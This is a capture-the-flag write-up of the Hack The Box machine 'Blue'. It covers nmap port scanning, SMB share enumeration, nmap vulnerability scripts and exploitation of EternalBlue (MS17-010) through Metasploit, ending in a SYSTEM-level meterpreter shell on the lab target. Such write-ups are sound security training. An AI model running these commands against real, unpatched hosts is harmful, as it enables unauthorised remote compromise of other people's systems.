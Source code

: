 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

```
Nmap scan report for 10.129.110.225
Host is up (0.15s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
47/tcp    filtered ni-ftp
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
2468/tcp  filtered qip-msgd
6099/tcp  filtered raxa-mgmt
9834/tcp  filtered unknown
19056/tcp filtered unknown
31232/tcp filtered unknown
33400/tcp filtered unknown
37044/tcp filtered unknown
45939/tcp filtered unknown
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
49393/tcp filtered unknown
49496/tcp filtered unknown
61199/tcp filtered unknown
61779/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/16%OT=135%CT=1%CU=35042%PV=Y%DS=2%DC=T%G=Y%TM=6505D5
OS:1D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M
OS:539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A
OS:%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sat Sep 16 16:55:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-16T16:17:27
|_  start_date: 2023-09-16T15:55:59
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-16T17:17:24+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   148.34 ms 10.10.14.1
2   148.63 ms 10.129.110.225

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't need to escalate privileges because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all
















